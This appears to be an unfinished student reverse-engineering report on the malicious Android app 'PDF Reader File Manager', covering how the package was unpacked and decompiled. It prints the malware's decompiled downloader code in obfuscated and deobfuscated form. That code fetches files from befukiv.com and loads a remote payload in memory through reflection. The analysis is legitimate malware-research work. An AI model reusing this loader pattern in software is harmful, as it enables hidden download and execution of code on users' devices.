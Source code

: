 ```yaml
---
geometry: margin=25mm
title: RE - PDF Manager
author: Tiago Silvestre - 103554, David Araújo - 93444
date: March 8, 2024
---
```


# Table of Contents
1. [Introduction](#introduction)
2. [Environment and Tools](#environment-and-tools)
3. [Exploration Steps](#exploration-steps)
4. [Conclusions](#conclusions) 

# Introduction

For our reverse engineering course, we have decided to analyze and reverse engineer the "PDF Reader File Manager" application, which was known for being removed from the Play Store earlier this year. It was developed to steal data from Android users, as explained in this article [here](https://www.tomsguide.com/computing/malware-adware/these-malicious-android-malware-apps-were-downloaded-150000-times-from-the-play-store-delete-them-right-now).

# Environment and Tools

## Environment
To explore this application, we first focused on using a **secure environment** where we could ensure that the finding **wouldn't harm** the host system, and prevent the **system from tainting** any of the possible findings.

We used Vagrant to setup a [Kali box](https://app.vagrantup.com/kalilinux/boxes/rolling) where we could import the provided raw files for evaluation. Also [REMnux Docker container](https://docs.remnux.org/install-distro/remnux-as-a-container) was used for further forensic exploration.

## Tools

[TODO]

# Exploration Steps & Findings

## Unpack

Unziping the file with `7za PDF_Reader_File_Manager.zip` results in the files and directory shown bellow.

![From the zip archive](./imgs/Screenshot%20from%202024-03-08%2017-30-10.png)

With a little investigation we can discover that XAPK files are just a bundle of an APKs with other files. To retrieve these we can again use `7za` and run it with the XAPK file. E now have multiple APKs, a PNG and a JSON file.

![Extracted files](./imgs/Screenshot%20from%202024-03-05%2000-41-49.png)

When trying to run `apktool d 1.apk` or `jadx -d out 1.apk`, we are confronted with some error. This does not happen with any other APK, so inspecting the file signatures, e can find out that **1.apk is not actually an APK** file.

![APK files signatures](./imgs/Screenshot%20from%202024-03-08%2017-40-55.png)

Indeed, if we try to unzip the file, we are able to retrieve multiple files.

![Inside the 1.apk](./imgs/Screenshot%20from%202024-03-08%2017-45-52.png)

## Decompiling

We now have a large set of files from the application, however, many of then are not relevant for what we are trying to achieve and can blur our view over the whole of the application. 

From all of the APKs found, e first focus on the _com.tragisoap.fileandpdfmanager.apk_ has it probably is the main application, and if anything malicious is to happen, it should first come from here.

Using `apktool`, we can expose the the inner contents of the bundle. To do this we can use the following command:

```bash
apktool d -r -s com.tragisoap.fileandpdfmanager.apk
```

From this, the most important file is the _classes.dex_ file, from which we can reassemble the Java class files. To do this we can use `jadx` with the command:

```bash
jadx -d out classes.dex
```

## Walkthrough

TODO: Finding initial point of application and trace it back to download of malware

### Exploring Application External Accesses

Given that the application contains malware, it's probable that at some point it downloads additional files from external services. We decided to search the codebase for URLs in the 'https://' format. And we found the following Java function.

```java
    public static void a() {
        String str;
        y4.p pVar = new y4.p();
        r.a aVar = new r.a();
        aVar.c("https://befukiv.com/muchaspuchas");
        y4.r a7 = aVar.a();
        r.a aVar2 = new r.a();
        aVar2.c("https://befukiv.com/cortina");
        y4.r a8 = aVar2.a();
        try {
            y4.t tVar = new y4.d(pVar, a7).a().f6804g;
            byte[] b2 = tVar.b();
            y4.o e7 = tVar.e();
            Charset charset = z4.h.f6957c;
            if (e7 != null && (str = e7.f6764b) != null) {
                charset = Charset.forName(str);
            }
            f3837g.set(new String(b2, charset.name()).split("\\|"));
            byte[] b7 = new y4.d(pVar, a8).a().f6804g.b();
            if (f3839i.get()) {
                return;
            }
            f3838h.getClass();
            g6.i.h(b7);
            f3839i.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

Although it's obfuscated, we can see that it's accessing files from the domain **befukiv.com**. A DNS search reveals that this domain has two name servers pointing to domains in Russia.

```
...
Registrant Email: http://whois.nicenic.net/?page=whoisform
Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
Name Server: NS1.ERANS.RU
Name Server: NS2.ERANS.RU
DNSSEC: unsigned
...
```

At the time this report is being written, the server is accessible, but the resources are not available (it returns a 'not found' response).

But we have access to these files as they were previously downloaded, so it's possible to continue our analysis.

### Exploring 'muchaspuchas' and 'cortina' files

The 'muchaspuchas' file is composed of what seems to be Java method or class names separated by the | character. The function where this file is being downloaded splits the file contents by the | character.

```
dalvik.system.InMemoryDexClassLoader|getClassLoader|loadClass|com.travisscott.pdf.MainLibrary|...
```

Given that information, we may assume that Java code is parsing these names and then calling them through reflection.

## Exploring readable files

We can see that inside function a() (obfuscated) a string is being splitted by '|' character. To make it more clear we did some deofuscation and achieved the following result

```
public static void fetchFilesAndProcess() {
        String str;
        Session session = new Session();
        HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
        getrequest.request("https://befukiv.com/muchaspuchas");
        HttpHandler call = getrequest.call();
        HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
        getrequest2.request("https://befukiv.com/cortina");
        HttpHandler call2 = getrequest2.call();
        try {
            ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
            byte[] parse = parseHttpResponseBody.parse();
            TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
            Charset charset = z4.h.utf8Charset;
            if (twoStrings != null && (str = twoStrings.secondStr) != null) {
                charset = Charset.forName(str);
            }
            muchasStrings.set(new String(parse, charset.name()).split("\\|"));
            byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
            if (fetchAndProcessCompleted.get()) {
                return;
            }
            fw.getClass();
            FileWriter.mapMuchasStringsToMethods(parse2);
            fetchAndProcessCompleted.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

As we can see, the function is fetching the files and is then it maps 'muchaspuchas' strings into application methods.
This shows that authors wanted to obfuscate application method calls with reflection.


TODO
1. muchaspuchas maybe a CSV type file
2. Based on 1., we look for split functions.



Going through the _1.apk_ files, we encountered a package named "juw.khdqwmf.xftkgphgq.fhyu" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.